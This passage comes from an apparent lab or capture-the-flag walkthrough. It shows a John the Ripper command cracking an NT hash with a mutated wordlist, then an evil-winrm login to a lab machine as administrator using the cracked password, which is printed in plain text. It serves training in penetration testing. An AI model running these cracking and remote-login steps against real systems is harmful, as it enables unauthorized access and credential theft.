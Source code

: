 Let's save the file and attempt to crack it using John the Ripper.

```
john --format=NT --wordlist=mut_password.list admin.hash
```

![](https://faresbltagy.gitbook.io/~gitbook/image?url=https%3A%2F%2F2537271824-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FIswWWP3l0rGuQmG2WUcr%252Fuploads%252F7pmGT8Ty4qxQq4fhkim2%252FScreenshot%2833%29.png%3Falt%3Dmedia%26token%3D4d4bf3c5-6768-4fed-b760-b987a0719c37\&width=768\&dpr=4\&quality=100\&sign=2df764b1\&sv=2)

We now have the password. Let's proceed with connecting using these credentials.

```
evil-winrm -i 10.129.211.174 -u administrator -p Liverp00l8!
```

![](https://faresbltagy.gitbook.io/~gitbook/image?url=https%3A%2F%2F2537271824-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FIswWWP3l0rGuQmG2WUcr%252Fuploads%252FZhDONFWQiBKfT4kzTG4e%252FScreenshot%2834%29.png%3Falt%3Dmedia%26token%3D0d597ed4-640a-4332-9ccc-84ec45cb8844\&width=768\&dpr=4\&quality=100\&sign=7a8cb4a\&sv=2)

Now we can get the flag.
